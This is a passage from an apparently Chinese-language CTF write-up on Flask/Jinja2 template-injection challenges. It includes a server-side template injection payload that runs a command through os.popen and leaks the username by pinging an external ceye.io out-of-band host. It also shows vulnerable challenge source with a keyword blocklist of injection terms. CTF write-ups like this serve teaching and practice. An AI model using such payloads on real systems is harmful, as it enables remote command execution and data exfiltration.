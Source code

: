 ```
num=١23456789
```

从源码中得到flag

![image-20240321132448348](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240321132448348.png)

### klf_ssti

访问hack，传klf参数

发现输入什么都回显

![image-20240321134324884](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240321134324884.png)

猜测是python的ssti注入

payload

这个地方是无回显，那就利用curl，ping进行带外

我这是使用windows复现的，直接ping了

```
{{config.__class__.__init__.__globals__['os'].popen('ping %USERNAME%.5k7ku.ceye.io').read()}}
```

![image-20240321134755369](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240321134755369.png)

得到用户名

### klf_2

```python
from flask import Flask, request, render_template, render_template_string,send_from_directory
import re
import os

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    return render_template('index.html')

@app.route('/secr3ttt', methods=['GET', 'POST'])
def secr3t():
    klf = request.args.get('klf', '')
    template = f'''
       <html>
           <body>
               <h1>别找了，这次你肯定是klf</h1>     
           </body>
           <img src="https://image-obsidian-1317327960.cos.ap-chengdu.myqcloud.com/obisidian-blog/0071088CAC91D2C42C4D31053A7E8D2B731D69.jpg" alt="g">
            <h1>%s</h1>   
       </html>
       <!--klf?-->
       <!-- 别想要flag？klf -->

       '''
    bl = ['_', '\\', '\'', '"', 'request', "+", 'class', 'init', 'arg', 'config', 'app', 'self', 'cd', 'chr',
      'request', 'url', 'builtins', 'globals', 'base', 'pop', 'import', 'popen', 'getitem', 'subclasses', '/',
      'flashed', 'os', 'open', 'read', 'count', '*', '38', '124', '47', '59', '99', '100', 'cat', '~',
      ':', 'not', '0', '-', 'ord', '37', '94', '96', '[',']','index','length']#'43', '45',
```